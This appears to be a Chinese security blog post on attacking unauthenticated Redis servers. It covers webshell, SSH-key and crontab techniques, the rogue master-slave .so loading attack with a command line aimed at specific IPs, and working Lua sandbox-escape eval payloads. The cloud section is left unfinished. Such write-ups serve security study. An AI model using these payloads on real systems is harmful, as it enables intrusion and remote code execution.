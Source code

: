 ```yaml
---
title: 关于Redis未授权利用的一些思考
date: 2023-06-13 13:29:08
tags:
    - 漏洞跟踪
    - 开发工具
categories: Bugs
thumbnail: /img/1484628369607.png

---
```


# Redis未授权利用的一些思考

<!-- split -->
> 一台未授权的redis，究竟能做些什么？
<!-- more -->

## 0x00 前言

问题如上。
其实真正遇到这个问题的时候我的第一反应也是没有当作一回事，毕竟redis未授权已经算得是和Top 10级别的漏洞一样耳熟能详的一个实战漏洞了，答案也是八股文张口就来：
1. 向web目录写入webshell
2. 通过写入authotrized_keys获取ssh登录权限
3. 通过crontab写入定时任务反弹shell

这几个选项是最常用的，也是最通用化的redis利用方式。基本上在目前的搜索引擎上能够获取到大量的文章，一般的面试以及普通的ctf靶场也通常会针对这几个考点来展开。但是实际上：

1. web路径未知，需要猜解或通过其他手段获取，或实际上在微服务分离的架构下redis服务器上不可能存在web服务，更有可能仅是一个redis容器。
2. redis主机没有暴露ssh端口，或根本不存在sshd服务，导致即使写入authotrized_keys，也无法实际利用。
3. 运行redis服务的账户权限极低，无法向/root/.ssh写入文件。
4. redis主机没有crontab服务

针对如上的限制，我们重新修改问题：

> 一台未授权且仅包含redis服务(容器化)，暴露的端口只有6379的redis容器，除了上述的几个方面，还能做些什么？

## 0x03 主从复制 远程.so加载

如果你足够细心和关注社区动态，那么在先知等平台

2019年7月7日，LC/BC的成员Pavel Toporkov在WCTF2019 Final分享会上介绍了Redis新版本的远程命令执行漏洞的利用方式。由于在Reids 4.x及以上版本中新增了模块功能，攻击者可通过外部拓展，在Redis中实现一个新的Redis命令。攻击者可以利用该功能引入模块，在未授权访问的情况下使被攻击服务器加载恶意.so 文件，从而实现远程代码执行。

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getsell了，在这种情况下，我们就需要其他的利用手段了。

此漏洞存在于4.x、5.x版本中，Redis提供了主从模式，主从模式指使用一个redis作为主机，其他的作为备份机，主机从机数据都是一样的，从机只负责读，主机只负责写。在Redis 4.x之后，通过外部拓展，可以实现在redis中实现一个新的Redis命令，构造恶意.so文件。在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令。

简单的说，攻击者（主机)写一个so文件，然后通过FULLRESYNC(全局)同步文件到受害人〈从机)上。

[exp](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

[代码仓库](https://github.com/LoRexxar/redis-rogue-server.git)

```python3
python3 redis-rogue-server.py --rhost 118.193.36.37 --rport 57048 --lhost 98.126.111.111 --lport 23333
```

## 0x04 Redis沙盒逃逸
Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。
Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。
我们借助Lua沙箱中遗留的变量package的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0里的导出函数luaopen_io。在Lua中执行这个导出函数，即可获得io库，再使用其执行命令

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /tmp", "r"); local res = f:read("*a"); f:close(); return res' 0

## 0x05 考虑云场景下的环境
对于这种微服务架构、

## 结尾
[exploit](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
[vulhub](https://github.com/vulhub/vulhub/tree/master/redis)
[先知-redis利用](https://xz.aliyun.com/t/2295)
[404-主从复制](https://paper.seebug.org/975/)
[利用总结](https://sec-in.com/article/1309)
[github-exp](https://github.com/00theway/redis_exp)
[检测工具](https://github.com/Ridter/hackredis)
[其他](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)